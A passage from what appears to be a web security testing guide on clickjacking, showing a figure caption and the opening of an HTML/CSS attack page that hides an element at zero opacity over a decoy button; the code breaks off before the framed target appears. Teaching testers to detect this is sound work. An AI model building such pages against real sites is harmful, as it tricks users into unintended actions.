 But playing with the CSS opacity value we can see what is hidden under the seemingly innocuous web page.

![Clickjacking Example Malicious Page 2](images/Clickjacking_example_malicious_page_2.png)\
*Figure 4.11.9-5: Clickjacking Example Malicious Page 2*

The clickjacking code to create this page is presented below:

```html
<html>
    <head>
        <title>Trusted web page</title>

        <style type="text/css"><!--
            *{
                margin:0;
                padding:0;
            }
            body {  
                background:#ffffff;
            }
            .button
            {
                padding:5px;
                background:#6699CC;
                left:275px;
                width:120px;
                border: 1px solid #336699;
            }
            #content {
                width: 500px;
                height: 500px;
                margin-top: 150px ;
                margin-left: 500px;
            }
            #clickjacking
            {
                position: absolute;
                left: 172px;
                top: 60px;
                filter: alpha(opacity=0);
                opacity:0.0
            }
```